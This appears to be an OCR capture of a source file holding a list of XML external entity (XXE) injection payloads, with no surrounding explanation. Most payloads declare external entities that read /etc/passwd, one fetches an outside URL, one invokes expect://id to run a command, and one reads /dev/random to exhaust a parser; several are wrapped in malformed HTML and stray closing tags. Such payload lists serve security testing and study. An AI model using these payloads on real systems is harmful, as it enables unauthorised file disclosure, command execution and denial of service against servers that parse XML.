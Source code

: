 

<html>
<body>
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
</body>
</xml>
</html>


<html>
<body>
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
</body>
</xml>
</html>

<html>
<body>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://en.wikipedia.org/"> ]>
</body>
</xml>
</html>



<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>


<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>








```xml
<myxml>
   <someElement />  
</myxml>
```